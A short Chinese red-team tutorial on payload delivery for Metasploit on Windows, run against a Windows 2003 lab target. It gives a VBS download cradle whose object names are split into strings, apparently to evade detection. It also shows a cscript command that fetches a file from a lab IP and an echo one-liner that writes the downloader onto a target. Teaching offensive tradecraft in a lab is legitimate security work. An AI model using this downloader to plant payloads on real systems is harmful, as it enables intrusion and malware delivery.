

专注APT攻击与防御
https://micropoor.blogspot.com/

一次msf完整的流程离不开目标机的payload下载与执行。而针对不同环境目标，考虑或者选择不同方式的payload下载与执行。如webshell下，注入点下。smb下等。而针对不同的实际环境，来做最好的选择。

既然本季开始专门针对windows下的payload下载讲解，那么就需要考虑到目标机的系统版本，是windows2000，windows 2003，或者是更高的版本如windows 2016等。

无论是哪个版本的windows系列，都是支持vbs的。

靶机：windows 2003
**vbs：**
保存downfile.vbs
```vbs
set a=createobject("adod"+"b.stream"):set
w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2
```

**命令行下执行：**

`cscript downfile.vbs http://192.168.1.115/robots.txt C:\Inetpub\b.txt`



往往在实战中，没有上传的方便条件，尤其是目标机是windows，只有echo方式来写入vbs。

**命令行下执行：**
```
echo set a=createobject(^"adod^"+^"b.stream^"):set
w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2 >>downfile.vbs
```
**优点：**支持windows全版本系列
**缺点：**对https不友好

>   Micropoor
